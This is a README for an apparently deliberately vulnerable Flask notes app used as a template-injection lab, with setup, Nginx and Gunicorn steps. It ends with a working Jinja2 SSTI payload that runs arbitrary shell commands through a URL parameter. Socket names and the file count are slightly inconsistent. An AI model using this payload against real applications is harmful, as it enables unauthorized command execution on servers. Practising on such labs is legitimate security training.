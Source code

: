 # My Project

## Purpose
This project is a simple web application for managing notes. Users can add new notes and view a list of existing notes.

## Setup Instructions
1. Clone the repository:
   ```
   git clone https://github.com/farukerdem34/ssti_flask.git
   ```
2. Navigate to the project directory:
   ```
   cd ssti_flask
   ```
3. Install the required dependencies. If using Flask, you can do this with:
   ```
   pip install -r requirements.txt
   ```
4. Run the application:
   ```
   python3 app.py
   ```

## Using Bootstrap

### Online
To use Bootstrap online, include the following CDN links in the `<head>` section of your HTML file:

```html
<!-- Bootstrap CSS -->
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">

<!-- Bootstrap JS and dependencies -->
<script src="https://code.jquery.com/jquery-3.5.1.slim.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/@popperjs/core@2.9.2/dist/umd/popper.min.js"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/js/bootstrap.min.js"></script>
```

### Offline
To use Bootstrap offline, download the Bootstrap files from the official website and include them in your project directory. Follow these steps:

1. Download the Bootstrap CSS and JS files from [Bootstrap's official website](https://getbootstrap.com/).
2. Save the downloaded files in a directory within your project, for example, `static/`.
3. Include the local Bootstrap files in the `<head>` section of your HTML file:

```html
<!-- Bootstrap CSS -->
<link href="static/css/bootstrap.min.css" rel="stylesheet">

<!-- Bootstrap JS and dependencies -->
<script src="static/js/jquery-3.5.1.slim.min.js"></script>
<script src="static/js/popper.min.js"></script>
<script src="static/js/bootstrap.min.js"></script>
```

## Usage
- Open your web browser and go to `http://127.0.0.1:5000` to access the application.
- Use the form to add a new note.
- Click on a note title to view its details.



# Production

## Install NGINX

```bash
sudo apt update -y
sudo apt install nginx -y
```

## Configure NGINX
```bash
sudo vim /etc/nginx/sites-available/ssti_flask/flask.conf
```

```
server {                                                                
     listen 80;                                                               
     server_name flask.domain.com;                                                      
                                                                         
     location / {                                                             
         include proxy_params;                                                     
         proxy_pass http://unix:/var/www/ssti_flask.sock;                                           
     }                                                                   
} 
```

```bash
sudo ln -s /etc/nginx/sites-available/ssti_flask /etc/nginx/sites-enabled/
```

## Install Gunicorn
```bash
sudo apt install gunicorn -y
```

```
gunicorn app:app --bind unix:/var/www/flask_ssti.sock
```


```plain
.
├── app.py
├── compose.yml
├── database.db 
├── Dockerfile
├── README.md
├── requirements.txt
├── static
│   ├── css
│   └── js
└── templates
    ├── index.html
    ├── login.html
    ├── note.html
    └── register.html

7 directories, 56 files
```


# Valid Payload
```jinja2
{{dict.__base__.__subclasses__()[353](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip()}}
```

go to
```plaintext
http://localhost/note/<id>?cmd=whoami
```